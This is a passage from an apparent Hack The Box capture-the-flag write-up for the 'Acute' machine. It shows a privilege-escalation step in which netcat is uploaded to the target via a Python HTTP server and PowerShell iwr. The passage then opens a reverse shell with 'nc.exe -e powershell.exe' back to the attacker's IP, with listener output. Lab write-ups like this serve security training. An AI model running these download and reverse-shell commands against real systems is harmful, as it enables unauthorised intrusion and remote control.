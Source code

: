It worked! We can **execute commands as domain user `jmorgan` on `Acute-PC01`!**

**In the group information, we actually see that domain user `jmorgan` is a member of Administrators local group on `Acute-PC01`:** (Which also can be found in `Acute-PC01`'s edavies PowerShell reverse shell session)
```shell
[...]
GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes                                                     
========================================== ================ ============ ===============================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group             
BUILTIN\Administrators                     Alias            S-1-5-32-544 Mandatory group, Enabled by default, Enabled group, Group owner
[...]
```

**That being said, we can get a reverse shell as `jmorgan` on `Acute-PC01` as a member of `Administrators` group via uploading a netcat executable in `C:\Utils\` and modifying `wm.ps1` script!**

- Upload netcat executable to `C:\Utils\` on `Acute-PC01`:

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Acute)-[2023.08.15|16:03:10(HKT)]
└> file /opt/static-binaries/binaries/windows/x64/nc.exe 
/opt/static-binaries/binaries/windows/x64/nc.exe: PE32+ executable (console) x86-64 (stripped to external PDB), for MS Windows, 7 sections
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Acute)-[2023.08.15|16:03:19(HKT)]
└> python3 -m http.server -d /opt/static-binaries/binaries/windows/x64/ 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```shell
PS > iwr -Uri http://10.10.14.19/nc.exe -OutFile C:\Utils\nc.exe
```

- Test the netcat executable is working or not:

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Acute)-[2023.08.15|16:05:11(HKT)]
└> rlwrap -cAr nc -lvnp 4443
listening on [any] 4443 ...
```

```shell
PS > C:\Utils\nc.exe -nv 10.10.14.19 4443 -e powershell.exe
```

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Acute)-[2023.08.15|16:05:11(HKT)]
└> rlwrap -cAr nc -lvnp 4443
listening on [any] 4443 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.11.145] 49832
[...]
PS C:\Users\edavies\Documents> 
```
